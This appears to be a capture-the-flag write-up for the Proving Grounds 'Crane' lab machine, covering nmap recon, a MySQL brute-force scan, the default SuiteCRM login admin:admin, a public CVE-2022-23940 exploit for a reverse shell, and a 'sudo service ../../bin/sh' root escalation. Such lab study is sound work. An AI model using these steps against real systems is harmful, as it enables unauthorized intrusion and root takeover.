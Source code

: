 ```yaml
---
date: '2024-10-17'
before : '2024-10-14'
after : '2024-10-24'
title: 'Proving Grounds : Crane'
categories: [ 'proving_grounds', 'pentest', 'ENG']
summary: 'Solving Crane machine from Proving Grounds'
thumbnail: '../contentImages/crane/1.png'
---
```


## 1. Recon

Starting with nmap scan as always.

```
┌──(hlee㉿hlee)-[~]                                                                     
└─$ sudo nmap 192.168.151.146 -T4 -p-                                        

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 14:53 EDT            
PORT      STATE SERVICE                                                      

22/tcp    open  ssh                                                          
80/tcp    open  http                                                          
3306/tcp  open  mysql                                                        
33060/tcp open  mysqlx                                                        
```

So there is a webapp besides mysql server. Let's try webapp first.


![image](../contentImages/crane/1.png)

  

So this is SuiteCrm, I've never seen it before.


```

┌──(hlee㉿hlee)-[~]
└─$ searchsploit suitecrm                          

 Exploit Title                                                              

SuiteCRM 7.10.7 - 'parentTab' SQL Injection | php/webapps/46310.txt
SuiteCRM 7.10.7 - 'record' SQL Injection | php/webapps/46311.txt
SuiteCRM 7.11.15 - 'last_name' Remote Code Execution (Authenticated) php/webapps/49001.py
SuiteCRM 7.11.18 - Remote Code Execution (RCE) (Authenticated) (Metasploit)   | php/webapps/50531.rb
Shellcodes: No Results

```

Okay, we need credentials, which we can possibly find from mysql server.

```

┌──(hlee㉿hlee)-[~]
└─$ sudo nmap 192.168.151.146 -T4 -sV -sC -p3306 --script mysql*

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 14:58 EDT
  

PORT     STATE SERVICE VERSION

3306/tcp open  mysql   MySQL (unauthorized)
| mysql-enum:
|   Accounts: No valid accounts found
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-empty-password: Host '192.168.45.247' is not allowed to connect to this MySQL server
| mysql-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 50009 guesses in 207 seconds, average tps: 250.0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 207.15 seconds

```

Nevermind. mysql server was a rabbit hole, credential was admin:admin.  

## 2. Initial Foothold

  

After I logged in, I found out that this suitecrm is version 7.12.3  


![image](../contentImages/crane/2.png)

  
That means none of the exploits above would work. I googled some authenticated cve's. 


Then I found this one:


> https://github.com/manuelz120/CVE-2022-23940

  
I followed the step, then:


![image](../contentImages/crane/3.png)

  
I got the revshell. as I did `sudo -l`

  
![image](../contentImages/crane/4.png)

  
Cool! No password + a binary!


## 3. Privesc

I used my friend gtfobins.

> https://gtfobins.github.io/gtfobins/service/


We can simply run:  

```
sudo service ../../bin/sh
```

As I tried, I could successfully get a shell as root user.


![image](../contentImages/crane/5.png)

  
Done!

---
## Source

- Proving Grounds
- Me!